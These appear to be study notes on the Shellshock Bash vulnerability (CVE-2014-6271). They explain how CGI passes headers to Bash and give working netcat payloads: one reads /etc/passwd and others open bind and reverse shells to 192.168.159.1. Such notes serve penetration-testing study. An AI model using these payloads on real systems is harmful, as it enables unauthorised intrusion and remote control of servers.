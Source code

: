 # Shell Shock
General
* CVE-2014-6271
* Impacts BASH shell
* Find a CGI that uses Bash

How CGI's Work (Common Gateway Interface)
* CGI's commonly use Python or Perl
* When you call it, server starts process to run CGI
   	* Maybe that is a bash process to run CGI script
* Server passes info to CGI Script
   	* Uses envrionmental variables 
   	* allows server to send headers to CGI
   	* e.g. http header “abc” is an EV called HTTP_ABC

The Vulnerability
* Source of issue: Bash can have internal function declared in it's EV's
* run arbitrary commands after a function declaration
* declare EV is a function by adding () -> add some injected commands to run

Exploit
* netcat
* read arbitrary files:
   	* echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
* Creating an empty function:
   	* () { :;};

Bind Shell
* use netcat to listen on a port and redirect input & output to /bin/sh
* echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
   	* only works if netcat is installed
* if connection hangs, the CGI is waiting for you to connect using: nc vulnerable 9999

Reverse Shell
* bind a port on our system
* find a port that the server is likely to have access to
   	* 21 (FTP), 53 (DNS), 123 (NTP), 80 (HTTP), 443 (HTTPS)
* Try 443 (as root)
   	* nc -l -p 443
* Payload
   	* echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80

